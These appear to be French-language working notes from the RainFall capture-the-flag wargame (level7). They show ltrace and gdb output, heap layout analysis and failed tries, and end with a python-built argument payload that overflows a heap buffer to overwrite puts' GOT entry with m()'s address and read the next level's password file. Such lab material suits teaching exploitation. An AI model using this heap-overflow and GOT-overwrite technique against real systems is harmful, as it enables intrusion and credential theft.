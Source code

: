 level7@RainFall:~$ ltrace ./level7 12 12
__libc_start_main(0x8048521, 3, 0xbffff6f4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                = 0x0804a008
malloc(8)                                = 0x0804a018
malloc(8)                                = 0x0804a028
malloc(8)                                = 0x0804a038
strcpy(0x0804a018, "12")                 = 0x0804a018
strcpy(0x0804a038, "12")                 = 0x0804a038
fopen("/home/user/level8/.pass", "r")    = 0
fgets( <unfinished ...>

(gdb) x/32wx 0x0804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x00004141      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      0x0804a038      0x00000000      0x00000011
0x804a038:      0x00004141      0x00000000      0x00000000      0x00020fc1

Variable gloable : 0x8049960
fgets(var c(globale), n: 68bytes, open(.pass), mode : read)

puts(08048703  data_8048703: ~~.)

(gdb) x/32w $esp
0xbffff610:     0x08049960      0x00000044      0x00000000      0xb7e5ee55
0xbffff620:     0xb7fed280      0x00000000      0x0804a028      0x0804a008
0xbffff630:     0x08048610      0x00000000      0x00000000      0xb7e454d3
0xbffff640:     0x00000003      0xbffff6d4      0xbffff6e4      0xb7fdc858
0xbffff650:     0x00000000      0xbffff61c      0xbffff6e4      0x00000000
0xbffff660:     0x0804825c      0xb7fd0ff4      0x00000000      0x00000000
0xbffff670:     0x00000000      0x0aae8655      0x3deb2245      0x00000000
0xbffff680:     0x00000000      0x00000000      0x00000003      0x08048440

Ecrire de 0x0804a038 a 0x8049960 Non LOL :D

b *main+202

Pour afficher l'instruction actuelle : utilisation du pc

x/x $pc
0x804852a <main+9>:     0x082404c7

======= Memory map: ========
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]

Bon pas trop d'idees, allons analyser l'asm

Ok bon apres quelques heures de reflexion j'en viens a me dire que :

Premier bloc (0x804a008):
- offset 0: valeur 1
- offset 4: pointeur vers buffer1 (0x804a018)

0x804a018:      0x00003231
(gdb) x/s 0x804a018
0x804a018:       "12"

Deuxième bloc (0x804a028):
- offset 0: valeur 2  
- offset 4: pointeur vers buffer2 (0x804a038)



(gdb) x/s 0x0804a038
0x804a038:       "12"

Est ce qu'on ne pourrait pas changer ces adresses pour les faire pointer ailleurs, par exemple sur m() ?

m() 08 04 84 f4
\xf4\x84\x04\x08

Essayons ca

set args $(python -c 'print "A"*20 + "\xf4\x84\x04\x08"') $(python -c 'print "A"*4') 

Essayons maintenant :

set 0x 08 04 99 60(buf c) a 0x 08 04 87 03(~~) 
      \x60\x99\x04\x08     \x03\x87\x04\x08
Pour que le puts write le contenue du fichier et non ~~
Ca marche pas, je ne peux pas ecrire dans .bss ou .rodata

set args $(python -c 'print "A"*20+ "\xf4\x84\x04\x08"') $(python -c 'print "\x60\x99\x04\x08"') 

Ok ca marche pas non plus

Je veux essayer d'ecraser la valeur de l'adresse 0x08049928 (qui correspond a l'adresse de la got du put) par l'adresse de m() 0x080484f4 pour modifier le flux d'execution et reussir a call m() 

0x08049928
0x080484f4

little endian
\x28\x99\x04\x08
\xf4\x84\x04\x08


set args $(python -c 'print "A"*20+ "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"') 

./level7 $(python -c 'print "A"*20+ "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"') 